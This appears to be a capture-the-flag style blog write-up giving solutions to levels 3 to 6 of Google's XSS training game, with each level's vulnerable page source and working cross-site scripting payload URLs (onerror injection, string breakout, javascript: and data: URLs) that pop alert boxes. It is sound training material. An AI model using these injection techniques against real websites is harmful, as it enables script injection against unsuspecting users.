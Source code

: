 ```yaml
---
title: Google_Game
author: ch3n9w
date: 2019-06-12 19:41:56
typora-root-url: ../
categories: CTF
---
```


# Google Xss game

<!--more-->

### Level 3

![image-20211114141306312](image-20211114141306312.png)

This website provides some API (after the arch pointer).

solution:

```https://xss-game.appspot.com/level3/frame#<img src='foo' onerror=alert();>```

### level 4

![image-20211114141313076](image-20211114141313076.png)



```javascript
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

solution:

```
https://xss-game.appspot.com/level4/frame?timer=');alert('
```



### level 5

![image-20211114141321457](image-20211114141321457.png)



```html
<!--signup.html-->
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

solution: 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xss')
```

and click the ``Next`` button.

### level 6

![image-20211114141329514](image-20211114141329514.png)

This website allow user to execute alternative js script

solution:

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

